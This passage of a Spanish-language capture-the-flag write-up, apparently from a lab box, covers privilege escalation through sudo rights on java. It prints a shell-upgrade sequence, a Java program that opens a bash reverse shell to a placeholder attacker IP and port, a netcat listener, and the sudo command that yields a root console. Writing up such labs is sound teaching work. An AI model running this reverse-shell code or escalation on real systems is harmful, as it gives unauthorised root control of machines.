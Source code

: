 Vemos que tenemos permisos sudo de java, en este caso no encontraremos información en gtfobins ya que no es tan sencillo como python o php que nos da privilegios al momento, pero lo que si podemos hacer es crear un archivo java que tenga una reverse shell y al ejecutarlo con sudo podremos entrar en otra reverse shell con máximos privilegios, vamos a probar.

Primero hacemos una TTY de la consola, os dejo los pasos:

```bash
script /dev/null -c bash
# Dale a CTRL + Z y aunque parezca que se vaya la consola introduce los siguientes comandos:

stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

Se puede ajustar mas asignado columnas y filas pero para este caso nos bastara así, ahora creamos el archivo java con un código que nos da una reverse shell que podemos obtener desde RevShells:

```java
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/TU_IP/TU_PUERTO 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

creas el archivo con el nano e introduces el codigo java:

```bash
pinguinazo@d4b8f1fc7e37:~$ nano revshell.java
```

Abres una nueva terminal, la pones a la esucha por net cat:

```bash
❯ nc -lvnp 4040
listening on [any] 4040 ...
```

Y desde la terminal de pinguinazo ejecutas el java

```bash
pinguinazo@d4b8f1fc7e37:~$ sudo /usr/bin/java revshell.java
```

Con esto en la otra temrinal obtenemos una consola como root, os dejo la captura de las dos consolas de pinguinazo y root:
